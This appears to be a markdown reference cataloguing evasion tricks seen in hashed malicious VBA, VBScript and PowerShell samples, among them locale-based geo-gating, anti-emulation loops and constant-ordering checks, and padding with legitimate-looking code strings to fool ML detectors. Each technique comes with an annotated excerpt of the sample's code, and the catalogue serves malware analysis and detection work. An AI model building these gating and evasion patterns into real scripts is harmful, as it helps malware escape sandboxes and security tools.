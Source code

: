# Geo-Gating
## VBA
### Only run in environments using Unicode

*SHA256: 0f6fdc6c9d0181616920be9e10316bdbd97c324892db9bb87ab8b9a8a8f60ead*

On a non-unicode Windows system, this raises an error and can prevent macro execution.

```vbscript
    If InStr(DTt, Chr(-27570)) Then
    frmWait.Show 0
```

### Only run in environments with the datetime in Italian in the month of June
*SHA256: 3d293298aaf5d5539049026e5b02bc6dfe3a5f55b20f27a782ffd50798f08a3f*

Since June in Italian is "Giugno", `If InStr(DTt, "no")` returns True if your DateTime settings are set to Italian.

```vbscript
Function DTt()
DTt = Format(Date, "Lon" & "g D" & "ate")

If InStr(DTt, "no") Then
    timWW.Show 0
    DoEvents
    Application.ScreenUpdating = False
    bool = CBool("true"): sim 4
    Debug.Print "Hyp = CDbl(Sqr(Opp ^ 2 + Adj ^ 2))": ligamii
    lintersteel
Else
    MsgBox ("errore"): Application.Quit
End If
```


## PowerShell

### Only run in an environment where the Windows is displaying Japanese for all native OS functionality

`${Sc}=12*1000+499` is the character code for the Japanese Katakana character ビ ("bi", sounds like like "bee")

If the system is displaying Japanese for native OS text, you will get `64-ビット` when querying Win32_OperatingSystem > osarchitecture

It is not enough to have your Unicode language set to Japanese - the full Japanese language pack must be installed, and the OS native language set to Japanese.

```powershell
${Sc}=12*1000+499
if((.('g'+'et-wMIOBj'+'eC'+'t') ('W'+('in32'+'_O')+('pe'+'r')+('at'+'ing')+('Syst'+'em'))).OsArChItecTURe -match [char]`${s`C}){...}
```

# Anti-Emulation
## VB
### Out-of-order variable assignment

In VB, constant variable assignment takes place first, regardless of where it is located in the code flow. Emulators may not accurately emulate this, so you can use the outcome of a test of the functionality to determine whether or not to terminate the script.

*SHA256: 52df163363942aebfddb8252b9fde1bc9e5e633a77e2cb6d4533e822a96929a8*

Note: this is not the VBA from the sample, but it demonstrates the anti-emulation technique in VB

```vbscript
A=Array(b,c)
d = A(0) + 1000

Wscript.Echo d

const b=424
const c=13

'Wscript.Echo A(0)
'Wscript.Echo A(1)
'Wscript.Echo d
```

### Emulation DOS

Emulation is very likely to be more expensive than native code execution. Creating expensive loops is one way to slow down and time out emulation.

*SHA256: 3d293298aaf5d5539049026e5b02bc6dfe3a5f55b20f27a782ffd50798f08a3f*

```vbscript
Function ligamii()
    For i = 1 To 1000000000
        Q = poudog(3)
        If Q = "ttt" Then Exit For
    Next
End Function
Function poudog(n)
    Dim i, j, m, s, chars
    Randomize: cM = "abcdefghijklmnopqrstuvwxyzQWERTYUIOPASDFGHJKLZXCVBNM"
    m = Len(cM)
    For i = 1 To n
        j = 1 + Int(m * Rnd())
        s = s & Mid(cM, j, 1)
    Next
    poudog = s
End Function
```

### Emulation DOS targeting loop shortcuts

A technique to deal with anti-emulation DOS loops is to detect a DOS loop and shortcut the loop completion. After a few times through the loop, the emulator can set the loop condition so that the code can continue past the loop more quickly.

This technique targets such shortcuts by checking if you're nearly done completing the loop normally. In this case, if you have looped 5,010,014 times `If (XyrZn=5010014) Then` Then add 424 to XIcCa `XIcCa=XIcCa+424`. If the value of XIcCa remains 1,600,977 after the loop, the script quits. Unless the loop runs its course normally, its unlikely the emulator will reach the 5 millionth time through the loop and correctly set the variable.

*SHA256: 52df163363942aebfddb8252b9fde1bc9e5e633a77e2cb6d4533e822a96929a8*

```vbscript
Function fcUbL()
  gymc = 2868
  XyrZn=424
  XIcCa=1600977
  Dim KTSVH
  KTSVH = 3161
  Do While XyrZn < 5010421
    If (XyrZn=5010421) Then
      Dim TxtYX
      TxtYX = 1927
      WScript.Quit
      Dim bOZN
      bOZN = 7705
    Else
      BlWYV = 9645
    End if
    Dim BqJQe
    BqJQe = 8447
    If (XyrZn=5010014) Then
      XIcCa=XIcCa+424
    Else
    End if
    Dim GuWq
    GuWq = 3300
    XyrZn=XyrZn+1
  Loop
  If (XIcCa=1600977) Then
    WScript.Quit
    Dim PdyIR
    PdyIR = 7373
  End if
End Function
```

# Machine Learning Evasion
## VB
### Code from legitimate scripts as string literals

If the decompressed VBA is being used to train a ML model without parsing and recognizing executable vs. non-executable code, string literals containing valid-looking VBA could make a script look more legitimate and evade ML detection

*SHA256: 3d293298aaf5d5539049026e5b02bc6dfe3a5f55b20f27a782ffd50798f08a3f*

```vbscript
DTt = Format(Date, "Lon" & "g D" & "ate")
End Function
Function co()
coo = "MsgBox (""Your Interest to Date is "" & int_now & ""."")": co = Cells
End Function
Function SediR()
fbb = False
remmi = "If (pFeatureLayer.FeatureClass.ShapeType = esriGeometryPolygon) Then"
misR = 19
tre1 = ""
For u = 1 To 4
```
